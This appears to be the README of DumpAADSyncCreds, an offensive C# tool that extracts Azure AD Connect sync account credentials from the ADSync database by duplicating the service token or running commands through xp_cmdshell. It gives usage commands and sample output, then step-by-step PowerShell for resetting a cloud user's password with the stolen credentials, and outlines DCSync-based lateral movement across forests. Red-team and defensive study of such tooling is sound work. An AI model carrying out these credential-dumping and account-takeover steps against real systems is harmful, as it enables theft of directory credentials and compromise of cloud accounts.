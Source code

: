 # DumpAADSyncCreds
DumpAADSyncCreds is C# implementation of Get-AADIntSyncCredentials from [AADInternals](https://github.com/Gerenios/AADInternals), which extracts Azure AD Connect credentials to AD and Azure AD from AAD connect database.

In late 2019, a change on key storage was deployed such that only ADSync service account could access the key to decrypt configuration file from database.

DumpAADSyncCreds provides two ways to impersonate as ADSync service account:

- execute command via xp_cmdshell by [Adam Chester](https://blog.xpnsec.com/azuread-connect-for-redteam/)
- copy token from miiserver process via DuplicateToken API call by AADInternals

## Usage

```shell
cmd> set PATH=%PATH%;C:\Program Files\Microsoft Azure AD Sync\Bin;
cmd> .\DumpAADSyncCreds.exe print_help
DumpAADSyncCreds
More info: https://github.com/Hagrid29/DumpAADSyncCreds
Example:
        set PATH=%PATH%;C:\Program Files\Microsoft Azure AD Sync\Bin;
        DumpAADSyncCreds.exe get_token
Options:
Dump AAD connect account credential in current context:
        DumpAADSyncCreds.exe [raw_output]
Copy token of ADSync service account and dump AAD connect account credential:
        DumpAADSyncCreds.exe get_token [raw_output]
Execute command as ADSync service account via xp_cmdshell:
        DumpAADSyncCreds.exe xp_cmd "\"C:\Program Files\Microsoft Azure AD Sync\Bin\DumpAADSyncCreds.exe\""
Print status of ADSync service:
        DumpAADSyncCreds.exe check_service
```

Duplicate token of ADSync service account

```shell
cmd> .\DumpAADSyncCreds.exe get_token
[+] Opening database: Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync
[+] Obtained ADSync service account token from miiserver process...
==========   AD configuration   ==========
AD Domain 1: XXXXXXX
AD User 1: MSOL_XXXXXXX
AD Password 1: XXXXXXX

==========   AAD configuration   ==========
AAD User 1: Sync_XXXXXXX_XXXXXXX@XXXXXXX.onmicrosoft.com
AAD Password 1: XXXXXXX
```

Execute xp_cmdshell

```shell
cmd> DumpAADSyncCreds.exe xp_cmd "\"C:\Program Files\Microsoft Azure AD Sync\Bin\DumpAADSyncCreds.exe\""
[+] Opening database: Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync
[+] Executed command: EXEC xp_cmdshell '"C:\Program Files\Microsoft Azure AD Sync\Bin\DumpAADSyncCreds.exe"'
[+] Opening database: Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync
==========   AD configuration   ==========
AD Domain 1: XXXXXXX
AD User 1: MSOL_XXXXXXX
AD Password 1: XXXXXXX

==========   AAD configuration   ==========
AAD User 1: Sync_XXXXXXX_XXXXXXX@XXXXXXX.onmicrosoft.com
AAD Password 1: XXXXXXX
```

Print ADSync service status

```shell
cmd> .\DumpAADSyncCreds.exe check_service
Is ADSync service running:      True
ADSync bin path:                C:\Program Files\Microsoft Azure AD Sync\bin\
ADSync service account:         XXXXXXX
ADSync version:                 1.6.16.0
*** ADSync passwords can be read or modified as local administrator only for ADSync version 1.3.xx.xx
```

## Use Cases of AAD Connect credentials
#### Lateral move from on-perm to cloud (Reset password of cloud user)
1. Import AADInternal
2. Request an access token for AADGraph
```powershell
ps> $passwd = ConvertTo-SecureString '<password>' -AsPlainText -Force
ps> $creds = New-Object System.Management.Automation.PSCredential ("<Sync_* account>", $passwd) 
ps> Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache 
```
3. Obtain Immutable ID of target user
```powershell
ps> Get-AADIntGlobalAdmins 
ps> Get-AADIntUser -UserPrincipalName <target user> | select ImmutableId 
```
4. Reset password of target user
```powershell
ps> Set-AADIntUserPassword -SourceAnchor "<Immutable ID>" -Password "P@ss4Hagrid29" -Verbose 
```

#### Lateral move across AD Forest
During different red team engagement, I noted that it is common to have [multiple forests with single Azure AD tenant](https://docs.microsoft.com/en-us/azure/active-directory/hybrid/plan-connect-topologies#multiple-forests-single-azure-ad-tenant) topologies for Azure AD Connect. WIth this setup, we could leverage AD DS connector account to compromise trusted forests from another.
1. Locate and compromise AAD connector servers and corresponding connector accounts that synchronizes users from other forests
2. Execute DCSync attack with the connector account against the target forest

## Improvement

- Dirk-jan found a way to remote dump AAD connect account credentials with RPC call. Check details in his [blog post](https://dirkjanm.io/updating-adconnectdump-a-journey-into-dpapi/)

## References

* https://github.com/Gerenios/AADInternals
* https://blog.xpnsec.com/azuread-connect-for-redteam/


